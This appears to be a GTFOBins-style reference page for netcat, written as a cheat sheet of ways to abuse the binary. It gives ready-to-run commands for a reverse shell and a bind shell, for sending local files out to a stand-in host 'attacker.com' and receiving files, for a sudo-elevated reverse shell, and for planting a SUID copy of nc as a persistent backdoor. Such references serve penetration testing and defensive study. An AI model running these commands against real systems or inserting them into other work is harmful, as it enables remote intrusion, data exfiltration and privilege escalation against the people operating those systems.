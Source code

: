 # nc

## **Reverse shell**

It can send back a reverse shell to a listening attacker to open a remote network access.

- Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
    
    ```
    RHOST=attacker.com
    RPORT=12345
    nc -e /bin/sh $RHOST $RPORT
    ```
    

## **Bind shell**

It can bind a shell to a local port to allow remote network access.

- Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
    
    ```
    LPORT=12345
    nc -l -p $LPORT -e /bin/sh
    ```
    

## **File upload**

It can exfiltrate files on the network.

- Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
    
    ```
    RHOST=attacker.com
    RPORT=12345
    LFILE=file_to_send
    nc $RHOST $RPORT < "$LFILE"
    ```
    

## **File download**

It can download remote files.

- Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
    
    ```
    LPORT=12345
    LFILE=file_to_save
    nc -l -p $LPORT > "$LFILE"
    ```
    

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
    
    ```
    RHOST=attacker.com
    RPORT=12345
    sudo nc -e /bin/sh $RHOST $RPORT
    ```
    

## **Limited SUID**

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
    
    ```
    sudo install -m =xs $(which nc) .
    
    RHOST=attacker.com
    RPORT=12345
    ./nc -e /bin/sh $RHOST $RPORT
    ```
